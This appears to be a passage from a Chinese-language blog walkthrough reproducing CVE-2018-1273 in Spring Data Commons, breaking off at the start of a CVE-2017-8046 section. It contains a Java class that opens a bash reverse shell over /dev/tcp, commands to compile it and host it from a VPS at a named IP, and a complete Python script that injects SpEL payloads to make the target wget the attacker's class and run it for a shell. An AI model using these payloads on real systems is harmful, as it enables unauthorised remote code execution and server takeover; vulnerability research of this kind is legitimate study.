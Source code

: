 ```
public class Exploit{    public Exploit(){        try{            Runtime.getRuntime().exec("/bin/bash -c $@|bash 0 echo bash -i >&/dev/tcp/目标IP/2222 0>&1");        }catch(Exception e){            e.printStackTrace();        }    }    public static void main(String[] argv){        Exploit e = new Exploit();    }}
```

然后反编译下 java 文件

```
javac Exploit.java
```

然后再 vps 上传 class 文件再开启 web

```
python3 -m http.server 8080
```

这里 url 为`http://198.13.51.45:8080/Exploit.class`

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9O3K1gCp1h3YHth6nSsbl014ic2YgyywD9ibw0TcEO7Ht1D4yiaGPpB8jdp2qEA1dtBPDia1xCQc7GicQ/640?wx_fmt=png)

vps 监听，这里监听端口为编译的 class 的端口

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9O3K1gCp1h3YHth6nSsbl0lZEvU5Vpib0RgaCjfe42fWfGFibibgyJObKNbibPDdn1BOrDiaA3WhWZicOA/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9O3K1gCp1h3YHth6nSsbl0C2sOs8D8zyCZZBPUh08pbv1icDQcASL64eEECd4qvSTdjWKncbzCUvA/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9O3K1gCp1h3YHth6nSsbl0Px4LhaHy5n7Lc2vQ6ia4FxEARYAs1ibf2RJTgya6tEMbmoGZLjxic10Rw/640?wx_fmt=png)

```
import pyfigletimport requestsascii_banner = pyfiglet.figlet_format("CVE-2018-1273")print(ascii_banner)print("blog:https://www.cnblogs.com/yicunyiye/")print("-" * 50)payload_poc = {    'username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("touch root/test111")]':'',    'password':'',    'repeatedPassword':''}url = input("attack url:")print("-" * 50)# url = "http://49.235.54.135:24814//users?page=&size=5"target = url+ "/users?page=&size=5"try:    res = requests.post(target,data=payload_poc)    if(res.status_code == 500):        print("[+]%s is vulnerable" % url)        print("-" * 50)        class_url = input("your exp class url:")        cmd = "wget "+class_url        payload_class = {            'username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("' +cmd+ '")]': '',            'password': '',            'repeatedPassword': ''        }        res_upload = requests.post(target,data=payload_class)        if(res_upload.status_code == 500):            print("[+]upload success")            print("-" * 50)            print("在vps监听端口，执行之后输入1继续，否则跳出程序")            flag = input("请在监听后输入1:")            print("-" * 50)            flag = int(flag)            if(flag == 1):                payload_shell = {                    'username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("java Exploit")]': '',                    'password': '',                    'repeatedPassword': ''                }                res_shell = requests.post(target,data=payload_shell)                if(res_shell.status_code == 500):                    print("[+]反弹成功")                else:                    print("[-]反弹失败")            else:                exit(0)        else:            print("[-]upload fail")            print("-" * 50)    else:        print("[-]%s is not vulnerable" % url)except:    print("[-]%s is not vulnerable" % url)
```

### 0x02 CVE-2017-8046

#### 2.1 漏洞复现

访问存在漏洞 web

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou9O3K1gCp1h3YHth6nSsbl0nv3j0QMmKibpX6YgD0Eia7q2OiaLLjt4QvgZlnMVGAFDbib3gicprASHp6w/640?wx_fmt=png)
